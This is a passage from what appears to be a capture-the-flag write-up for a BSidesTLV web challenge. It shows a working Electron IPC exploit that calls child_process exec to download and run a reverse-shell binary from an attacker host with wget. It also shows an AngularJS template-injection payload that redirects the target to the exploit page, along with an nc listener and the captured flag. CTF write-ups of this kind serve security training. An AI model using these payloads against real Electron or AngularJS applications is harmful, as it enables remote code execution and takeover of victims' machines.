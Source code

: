 ```html
                } catch (e) {
                    return;
                }
                /*
                 * ELECTRON_BROWSER_REQUIRE returns metadata for
                 * module.exports, and the actual object is stored in
                 * the objectsRegistry (see valueToMeta())
                 */
                var proc = sendSync("ELECTRON_BROWSER_REQUIRE", "child_process");
                /*
                 * ELECTRON_BROWSER_MEMBER_CALL retrieves a module object from
                 * the objectsRegistry and calls the specified method with an
                 * array of arguments processed by unwrapArgs()
                 */
                var args = [{
                    type: "value",
                    value: "wget -O /tmp/rev http://h4ckerman.ddns.net/rev; chmod +x /tmp/rev; /tmp/rev"
                }];
                sendSync("ELECTRON_BROWSER_MEMBER_CALL", proc.id, "exec", args);
            }
            exec();
        </script>
    </body>
</html>
```

Serve the reverse shell (generated with `msfvenom`) to Nightmare, and have it execute the reverse shell with the following AngularJS expression.

```
{% raw %}{{constructor.constructor("document.location='http://h4ck3rman.ddns.net/exploit.html'")()}}{% endraw %}
```
Meanwhile in our `nc` listener.

![5a5a03ee.png](/assets/images/posts/bsidestlv-web/5a5a03ee.png)

The flag is `BSidesTLV{AngularjS_is_Freddy_Krueger}`.
